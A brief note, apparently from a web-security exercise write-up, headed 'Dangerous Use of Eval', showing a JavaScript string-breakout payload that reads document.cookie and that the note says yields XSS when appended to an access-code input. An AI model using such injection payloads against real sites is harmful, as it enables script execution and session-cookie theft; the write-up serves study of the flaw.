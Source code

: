 ## Dangerous Use of Eval

We can get XSS for appending this to `Enter your three digit access code:`

```javascript
');alert(document.cookie);('
```

